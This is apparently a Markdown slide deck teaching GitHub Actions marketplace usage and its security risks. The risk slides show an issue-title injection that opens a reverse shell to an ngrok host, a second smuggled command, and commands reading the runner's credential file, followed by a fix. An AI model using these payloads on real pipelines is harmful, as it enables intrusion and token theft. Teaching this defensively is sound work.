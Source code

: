 <!-- .slide: -->
# Marketplace
## 👉 [How to use](https://github.com/marketplace?type=actions)

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: 
Node ou Docker
Demo direct sur la marketplace

Gaetan

##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace

## Using versioned actions

```yaml
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference a specific version
  - uses: actions/checkout@v3.2.0
    
  # Reference the major version of a release
  - uses: actions/checkout@v3
    
  # Reference a branch
  - uses: actions/checkout@main
```

##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace


### Inputs

```yaml
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

### Outputs

```yaml
- name : setup node
  id: my-id
  uses: actions/setup-node@v3
  with:
    node-version: '14'
- name: run test
  shell: bash
  run: |
    echo ${{ steps.my-id.outputs.node-version }}
```

Notes:

Gaetan

Reference in docker hub
from local folder (.github/action)

##==##
<!-- .slide: -->
# Useful actions

* 👉 [**actions/checkout**](https://github.com/marketplace/actions/checkout)

  * allows to check out a repository 
  * github_token, ref, depth, path, ... customization

* 👉 [**actions/setup**](https://github.com/marketplace?type=actions&query=setup+)

  * allows to install a tool
  * provided by GitHub and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* 👉 [**actions/dependency-review-action**](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raises an error if vulnerabilities are found.

Notes:

Gaetan

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Step of our GitHub Actions

```yaml
- run: |
    echo "ISSUE TITLE: ${{github.event.issue.title}}"
    ISSUE_DESCRIPTION="${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action

  * Titlle : ```New title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "```
  * Description : `a"; ls $GITHUB_WORKSPACE"`

* Let's fix it :

```yaml
- env:
    TITLE: ${{ github.event.pull_request.title }}
    DESCRIPTION: ${{github.event.issue.body}}
  run: |
    echo "ISSUE TITLE: "$TITLE"
    echo "ISSUE DESCRIPTION: $DESCRIPTION"
```

Notes:

ngrok to make a backdoor

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Credential 

```yaml
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

Notes:

Thibauld
